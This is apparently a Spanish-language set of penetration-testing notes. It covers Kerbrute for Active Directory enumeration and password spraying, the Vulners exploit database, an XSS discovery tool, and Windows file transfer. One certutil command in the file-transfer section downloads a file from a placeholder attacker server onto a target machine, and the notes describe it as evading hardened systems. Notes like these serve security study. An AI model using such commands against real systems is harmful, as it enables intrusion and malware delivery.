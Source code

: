 ### Kerbrute - Herramienta para ataques Kerberos

[https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

Kerbrute es una herramienta rápida para:
- Enumerar usuarios en un dominio Active Directory
- Realizar ataques de password spraying
- Búsqueda de cuentas ASREPRoastables
- Realizar ataques de fuerza bruta contra cuentas

```bash
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute
# Compilar o descargar binarios precompilados
```

## Herramientas de Búsqueda de Vulnerabilidades

### Vulners - Base de datos de exploits

[https://vulners.com/githubexploit/1321A903-80B8-56C5-A776-516C0F848CB8](https://vulners.com/githubexploit/1321A903-80B8-56C5-A776-516C0F848CB8)

Vulners es un motor de búsqueda de vulnerabilidades que permite:
- Encontrar exploits para servicios específicos
- Correlacionar CVEs con exploits disponibles
- Acceder a una extensa base de datos de vulnerabilidades

### XSS0r - Herramienta para descubrir XSS

[https://xss0r.com/](https://xss0r.com/)

XSS0r permite:
- Detectar vulnerabilidades XSS en aplicaciones web
- Generar payloads personalizados
- Automatizar la búsqueda de puntos de inyección

## Transferencia de Archivos

### Descarga de archivos en Windows con certutil.exe

![Certutil para descargas](Pasted%20image%2020250811232036.png)

```bash
# En el sistema Windows objetivo
certutil.exe -urlcache -f http://servidor-atacante/archivo.exe archivo.exe
```

Certutil es una herramienta nativa de Windows que puede usarse para:
- Descargar archivos desde un servidor remoto
- Codificar/decodificar archivos en base64
- Evitar restricciones en la ejecución de PowerShell
- Funciona incluso en sistemas endurecidos

